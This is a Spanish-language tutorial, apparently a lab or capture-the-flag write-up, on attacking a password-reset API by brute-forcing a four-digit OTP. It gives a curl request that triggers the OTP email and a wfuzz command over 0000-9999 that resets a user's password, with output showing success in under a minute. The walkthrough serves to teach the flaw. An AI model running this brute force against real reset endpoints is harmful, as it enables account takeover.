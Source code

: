 ![portada_reset_password](img/reset_password_portada.png)

# Atacando a los sistemas de restablecimiento de contraseñas
Sabemos que las contraseñas son necesarias para la autenticación en diferentes tipos de sistemas. Las empresas, cada vez más por suerte, cuidan que sus políticas de contraseñas sean lo suficientemente robustas para forzar a sus empleados a que sigan las mejores prácticas e intentar impedir que un atacante pueda adivinarlas por fuerza bruta.

Sin embargo, otro vector de ataque son los mecanismos de auto restablecimiento de contraseñas que las empresas ofrecen a sus empleados usados, por ejemplo, ante un olvido de la misma. En este artículo, veremos cómo aprovecharnos de esta circunstancia en un sistema de restablecimiento de contraseña que usa OTP.

# OTP
Primero, explicaremos qué es OTP. OTP, del inglés One-Time Password, es una contraseña de un solo uso y, por tanto, pierde su validez después de su uso. Habitualmente, es usada como parte de de una autenticación de doble factor o como parte de los mecanismos de restablecimiento de contraseñas. Esta contraseña suele enviarse por correo electrónico o por SMS, para que pueda ser introducida por el interesado.

A continuación, simularemos un ataque a un mecanismo OTP. Partiremos de un correo electrónico obtenido en fases previas de enumeración: MasonJenkins@ymail.com

Según podemos ver en la imagen, tenemos acceso a un punto final de una API que permite restablecer la contraseña de un usuario, añadiendo como parámetros el correo electrónico asociado, la clave OTP y la nueva clave final. En la descripción del propio punto final, vemos que la clave OTP supuestamente tiene una duración máxima de 5 minutos. Dado que no tenemos el control de la cuenta de correo electrónico del usuario, intentaremos un ataque por fuerza bruta al mecanismo OTP que deberá completarse antes de esos 5 minutos.

![api_otp](img/reset_password_2.png)

Tenemos a nuestra disposición otro método de la API, que permite el envío de la clave OTP a una dirección de correo electrónico asociada a una cuenta de usuario.

![api_otp](img/reset_password_1.png)

Realizamos la petición de restablecimiento de contraseña, para que se genere la clave OTP.
```bash
# curl -X 'POST' 'http://94.237.60.154:52829/api/v1/authentication/customers/passwords/resets/email-otps' -H 'accept: application/json' -H 'Content-Type: application/json' -d '{"Email": "MasonJenkins@ymail.com"}'
{"SuccessStatus":true}
```

Es habitual encontrar mecanismos OTP que devuelven contraseñas de entre 4 a 6 carácteres, todos numéricos. A continuzación, realizamos nuestro ataque de fuerza bruta con wfuzz, con un rango desde el 0001 hasta el . Con el parámetro "--hh" ocultamos las peticiones fallidas, que devuelven un total de 23 carácteres ("SuccessStatus": false). 
```bash
#wfuzz -c  --hc 404 -u http://94.237.59.180:50815/api/v1/authentication/customers/passwords/resets -z range,0000-9999 -H "Content-Type: application/json" -d '{"Email": "MasonJenkins@ymail.com", "NewPassword": "Test1234", "OTP":"FUZZ"}'

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://94.237.60.154:52829/api/v1/authentication/customers/passwords/resets
Total requests: 9999

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================
000007435:   200        0 L      1 W        22 Ch       "7435"

                                            
Total time: 51.76655
Processed Requests: 9999
Filtered Requests: 9998
Requests/sec.: 193.1555

```
Como vemos en el resultado de la ejecución de wfuzz, conseguimos en menos de un minuto el código OTP y, por tanto, cambiar la contraseña al usuario.







